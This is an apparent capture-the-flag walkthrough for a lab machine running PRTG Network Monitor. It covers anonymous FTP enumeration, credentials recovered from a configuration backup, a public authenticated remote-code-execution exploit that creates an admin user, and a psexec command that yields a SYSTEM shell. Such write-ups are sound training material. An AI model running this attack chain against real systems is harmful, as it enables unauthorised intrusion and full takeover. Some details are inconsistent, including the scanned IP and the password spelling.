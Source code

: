 # Netmon walkthroughs

Machine ip: 10.10.10.152

Running ```nmap -sV -sC -sS -oN nmapo.txt -v -p 0-10000 10.10.10.226``` gave this output:


```markdown
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_07-02-19  12:39PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## User

The nmap scan shows us that we have access to the C: drives root folders on the box with anonymous login on FTP.
The first flag is obtained directly from the ftp folder under **C:\Users\Public\Desktop\user.txt**

## Root

From the nmap can results we know that the service on HTTP is PRTG Network Monitor and we can look for configuration files for that.
After googling some information about the PRTG Network Monitor we know these files are in the directory _ProgramData\Paessler\PRTG Network Monitor_.
We can then download the files **PRTG Configuration.dat** and **PRTG Configuration.old.bak** from the directory on to our machine using ```get PRTG Configuration.dat``` and ```get PRTG Configuration.old.bak```.
The **PRTG Configuration.old.bak** contains the following username and password:

```prtgadmin:PrTg@dmin2018```


There is a monitoring system called **PRTG Network Monitor** in the version 18.1.37 on th web page and we can try logging in with the credentials we found but it does not work.

The file is actually from 2019 so let's try entering the password as ```admin2019```.

This works and we are now logged in as user **prtgadmin**.

[Exploit-db](www.exploit-db.com) has a remote code execution exploit that requires authentication for the **PRTG Network Monitor** that can be found [here.](https://www.exploit-db.com/exploits/46527)

Copy and paste the code into an editor of your choice and save it with any name. I will call mine **netmon_exploit.sh**.

Make sure that the shell script is executable by typing in ```chmod +x netmon_exploit.sh``` on your machine.

We will need to obtain a cookie after logging in to the **PRTG Network Monitor** web page.

We can do this by opening up BurpSuite and configure the BurpSuite proxy on our web browser.

We can find a cookie starting with **OCTOPUS** and we can copy that.

```markdown
./netmon_exploit.sh -u http://10.10.10.152 -c "OCTOPUS" //The cookie will have a string of characters after OCTOPUS
```

This exploit creates a user in the admin group with the following credentials:

```markdown
username: pentest
password: P3nt3st!
```


Install Impacket and in the same directory where we installed it, run the following command:

```markdown
psexec.py pentest:'P3nT3st!'@10.10.10.152
```

After the command executes, we will get a shell as **NT Authority\SYSTEM**

We can just go to root folder and grab the root.txt hash 
